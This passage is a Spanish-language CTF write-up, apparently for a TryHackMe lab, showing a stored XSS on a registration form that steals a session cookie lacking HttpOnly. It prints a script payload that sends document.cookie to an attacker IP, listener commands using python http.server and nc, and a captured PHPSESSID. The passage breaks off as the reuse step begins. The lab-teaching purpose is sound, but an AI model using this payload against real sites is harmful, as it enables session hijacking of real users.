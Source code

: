 ### ❗ Por qué importa (implicaciones)

Una cookie sin HttpOnly puede ser leída por JavaScript que se ejecute en el contexto del sitio.

Si existe XSS (Cross-Site Scripting) almacenado o reflejado en la aplicación, un atacante podría inyectar JavaScript que lea document.cookie y envíe la cookie de sesión a un servidor controlado por el atacante.

Con una cookie de sesión válida (PHPSESSID) robada, es posible secuestar la sesión del usuario objetivo (iniciar sesión como ese usuario sin conocer la contraseña). En un CTF esto suele usarse para acceder a cuentas moderadoras o áreas protegidas.

## 🔥 Paso 11: PoC XSS (persistente) — Registro con payload y robo de PHPSESSID

Contexto: En http://worldwap.thm/public/html/register.php inyectamos un payload en los campos del formulario (por ejemplo email o name) para probar XSS persistente. 

La cookie de sesión (PHPSESSID) no tiene HttpOnly, por lo que puede ser leída por JavaScript.

### 1) Payload inyectado (ejemplo) - Sacado del repositorio PayloadsAllTheThings

Se coloca este payload en email y name al registrarte:


<img width="1320" height="616" alt="introducir payload" src="https://github.com/user-attachments/assets/212936ec-3fcf-4c0a-9245-cc6efc547cd8" />


````<script>document.location='http://10.10.84.171:4444/XSS/grabber.php?c='+document.cookie</script>````


Explicación: cuando el navegador renderice ese campo donde el contenido se muestra sin escapado, 

ejecutará el script y redireccionará GET a tu servidor atacante añadiendo ?c=... con la cookie (o cualquier dato que quieras robar).

### ⚠️ Advertencia legal / ética

Estas pruebas son válidas únicamente en entornos controlados (CTF, laboratorio o sistemas con permiso explícito). 

No ejecutes payloads, scans o explotación contra sistemas que no te pertenecen o sin autorización.

### 2) Levantar receptor (listener)

# opción sencilla para ver peticiones HTTP entrantes

python3 -m http.server 4444
o
nc -lvnp 4444

<img width="1165" height="526" alt="respuesta del payload en el servidor python" src="https://github.com/user-attachments/assets/c9b96632-8c0a-46a4-a199-104e025786eb" />

### 3) Extraer valor de la cookie

De la petición recibida:

#### PHPSESSID=bapm4h70pmai9g51uocf4b95l

### 4) Reutilizar la cookie para obtener la sesión:

En el navegador (método visual)

````